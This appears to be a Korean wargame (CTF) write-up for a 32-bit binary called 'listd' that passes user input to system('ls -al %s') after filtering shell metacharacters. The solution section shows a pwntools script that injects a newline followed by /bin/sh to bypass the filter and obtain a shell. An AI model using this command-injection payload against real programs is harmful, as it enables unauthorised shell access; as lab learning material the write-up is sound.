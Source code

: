 ```yaml
---
layout: post
title: "listd"
comments : true
category : War Game
---
```


# 문제
***

listd 바이너리의 checksec 결과는 다음과 같다.
```
CANARY    : ENABLED
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```

file 명령어 결과는 다음과 같다.
```
listd: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=acb3a41b7e1afaf7a9ff6bd06bad502136c4021f, not stripped
```

바이너리 코드
```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s; // [esp+1Ch] [ebp-30Ch]
  char buf; // [esp+21Ch] [ebp-10Ch]
  unsigned int v6; // [esp+31Ch] [ebp-Ch]

  v6 = __readgsdword(0x14u);
  memset(&buf, 0, 0x100u);
  read(0, &buf, 0x100u);
  if ( strchr(&buf, '`')
    || strchr(&buf, '|')
    || strchr(&buf, '&')
    || strchr(&buf, '$')
    || strchr(&buf, '\'')
    || strchr(&buf, '"')
    || strchr(&buf, '`')
    || strchr(&buf, ';')
    || strchr(&buf, '`') )
  {
    puts("What are you doing ?");
    exit(0);
  }
  sprintf(&s, "ls -al %s", &buf);
  system(&s);
  return 0;
}
```

read로 입력을 받고 입력값에 "'", "|", "&", "$", "\", """, "`", ";" 등이 있으면 exit() 함수를 호출한다.


따라서 위의 문자 없이 system 함수에서 "ls -al"과 함께 "/bin/sh"를 실행해야 한다. 

처음에는 strchr을 우회하기 위해서 payload를 "\x00"+";"+"/bin/sh"와 같이 구성해봤다. 하지만 %s에 의해서 NULL 뒤에 있는 부분은 출력되지 않았다. 

그 다음 방안으로 "\0x0a" + "/bin/sh"를 넣었더니 system 함수에서 "ls -al"과 "/bin/sh"가 실행되어 쉘을 획득할 수 있었다. ("\x0a"+";"+"/bin/sh"로 payload를 구성하면 strchr에 의해서 exit함수가 호출된다.)

# 풀이
***
```
#!/usr/bin/python

from pwn import *

file_path="/home/sungyun/round2/listd/listd"

p=process(file_path)

p.send("\x0a"+"/bin/sh")

p.interactive()
```

